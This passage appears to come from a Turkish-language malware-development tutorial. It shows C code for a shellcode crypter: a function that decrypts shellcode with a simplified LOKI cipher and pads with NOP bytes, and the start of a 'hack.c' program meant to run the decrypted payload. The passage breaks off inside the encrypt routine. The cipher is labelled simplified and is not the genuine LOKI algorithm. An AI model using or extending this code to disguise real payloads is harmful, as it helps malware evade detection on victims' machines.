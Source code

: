 Ardından, şifre çözme mantığını oluştur:    

```cpp
void loki_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}
```

Son payload'u çalıştırmak için tam kaynak kodu (`hack.c`) şu şekildedir:    

```cpp
/*
* hack.c
* encrypt/decrypt payload via LOKI
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/16/malware-cryptography-29.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 16
#define BLOCK_SIZE 8
#define KEY_SIZE 8

typedef uint32_t u32;
typedef uint8_t u8;

u8 key[KEY_SIZE] = {0x01, 0x23, 0x45, 0x67, 0x89, 0xAB, 0xCD, 0xEF};

void loki_encrypt(u8 *block, u8 *key) {
  // LOKI encryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = 0; round < ROUNDS; round++) {
    u32 temp = right;
    right = left ^ (right + ((u32)key[round % KEY_SIZE]));
    left = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
```